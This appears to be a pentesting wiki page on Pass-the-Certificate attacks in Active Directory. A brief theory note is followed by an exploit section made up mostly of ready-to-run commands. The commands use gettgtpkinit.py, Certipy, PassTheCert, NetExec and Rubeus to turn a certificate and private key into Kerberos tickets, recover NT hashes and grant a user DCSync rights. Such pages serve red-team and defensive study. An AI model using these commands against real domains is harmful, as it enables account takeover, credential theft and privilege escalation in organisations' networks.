 ## Theory
!!! note
    Keep in mind a certificate in itself cannot be used for authentication without the knowledge of the private key. A certificate is signed for a specific public key, that was generated along with a private key, which should be used when relying on a certificate for authentication.

    The "certificate + private key" pair is usually used in the following manner

    - PEM certificate + PEM private key
    - PFX certificate export (which contains the private key) + PFX password (which protects the PFX certificate export)
## Exploit
=== "UNIX-like"
    From UNIX-like systems, Dirk-jan's gettgtpkinit.py from [PKINITtools](https://github.com/dirkjanm/PKINITtools) tool to request a TGT (Ticket Granting Ticket) for the target object. That tool supports the use of the certificate in multiple forms.
    ```bash
    # PFX certificate (file) + password (string, optionnal)
    gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

    # Base64-encoded PFX certificate (string) (password can be set)
    gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

    # PEM certificate (file) + PEM private key (file)
    gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
    ```
    Alternatively, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used for the same purpose.
    ```bash
    certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
    ```
    Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file.
    ```bash
    certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
    ```

    The ticket obtained can then be used to

    - authenticate with pass-the-cache
    - conduct an [UnPAC-the-hash](./UNPAC%20the%20hash.md) attack. This can be done with getnthash.py from PKINITtools.
    - obtain access to the account's SPN with an S4U2Self. This can be done with gets4uticket.py from [PKINITtools](https://github.com/dirkjanm/PKINITtools).
    !!! note
        When using Certipy for Pass-the-Certificate, it automatically does UnPAC-the-hash to recover the account's NT hash, in addition to saving the TGT obtained.
    
    Another alternative is with [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) (Python) which can be used to conduct multiple techniques like elevate a user for dcsync.md or change password for a specific user.
    ```bash
    # extract key and cert from the pfx
    certipy cert -pfx "PATH_TO_PFX_CERT" -nokey -out "user.crt"
    certipy cert -pfx "PATH_TO_PFX_CERT" -nocert -out "user.key"

    # elevate a user for DCSYNC with passthecert.py
    passthecert.py -action modify_user -crt "PATH_TO_CRT" -key "PATH_TO_KEY" -domain "domain.local" -dc-ip "DC_IP" -target "SAM_ACCOUNT_NAME" -elevate
    ```
    Netexec can be also used to perform Pass-the-Certificate authentication
    ```bash
    netexec <proto> <ip> --cert-pfx "PATH_TO_PFX_CERT" -u user 
    netexec <proto> <ip> --cert-pfx "PATH_TO_PFX_CERT" --pfx-pass "CERT_PASSWORD" -u user 
    netexec <proto> <ip> --pfx-base64 "PATH_TO_PFX_CERT" -u user 
    netexec <proto> <ip> --cert-pem "PATH_TO_CRT" --key-pem "PATH_TO_KEY" -u user
    ```
=== "Windows"
    From Windows systems, Rubeus (C#) can be used to request a TGT (Ticket Granting Ticket) for the target object from a base64-encoded PFX certificate export (with an optional password).
    ```bash
    Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
    ```
    !!! note
        PEM certificates can be exported to a PFX format with openssl. Rubeus doesn't handle PEM certificates.
        ```bash
        openssl pkcs12 -in "cert.pem" -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "cert.pfx"
        ```
        Certipy uses DER encryption. To generate a PFX for Rubeus, openssl can be used.
        ```bash
        openssl rsa -inform DER -in key.key -out key-pem.key
        openssl x509 -inform DER -in cert.crt -out cert.pem -outform PEM
        openssl pkcs12 -in cert.pem -inkey key-pem.key -export -out cert.pfx
        ```
        To generate a b64 for Rubeus:
        ```bash
        $pfx_cert = get-content 'c:\cert.pfx' -Encoding Byte
        $base64 = [System.Convert]::ToBase64String($pfx_cert)
        $base64
        ```
    The ticket obtained can then be used to

    - authenticate with pass-the-ticket
    - conduct an UnPAC-the-hash attack (add the /getcredentials flag to Rubeus's asktgt command)
    - obtain access to the account's SPN with an S4U2Self.